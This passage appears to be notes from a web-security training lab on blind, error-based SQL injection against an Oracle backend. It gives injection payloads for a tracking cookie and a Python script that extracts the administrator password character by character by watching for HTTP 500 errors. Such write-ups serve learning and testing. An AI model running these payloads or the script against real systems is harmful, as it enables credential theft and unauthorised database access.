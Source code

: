 - With the first input, the CASE expression FALSE then go to ELSE evaluates to 'a', which does not cause any error.
- With the second input, it TRUE then go to TRUE evaluates to 1/0, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

*ORACLE*
`TrackingId=KjXtzlai4eYNgiSL'UNION (SELECT CASE WHEN LENGTH(password)>20 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--;`

If the length of password is greater than 20 => Cause 500 error. By this we can determine the length of password is 20.

Then extract each character of password:

```python
import httpx
import string


password_length = 20
password = ""
alphabet= list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
print(alphabet)

url = "https://0a0a003d031b165a80dd0382006500d1.web-security-academy.net/"
cookies = {
    "session": "kmH73vUrbJzcoQVG4e2ShDYQ2jYY9OTk",
    "TrackingId": "a"
}

with httpx.Client() as client:
   for position in range(1, password_length + 1):  
    for x in alphabet:  
        cookies["TrackingId"] = (
            f"KjXtzlai4eYNgiSL'UNION (SELECT CASE WHEN (SUBSTR(password,{position},1) = '{x}') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')--"
        )
        
        response = httpx.get(url, cookies=cookies)

        if response.status_code == 500: 
            password += x
            print(f"Found character at position {position}: {x}")
            break

print(f"Password: {password}")


```

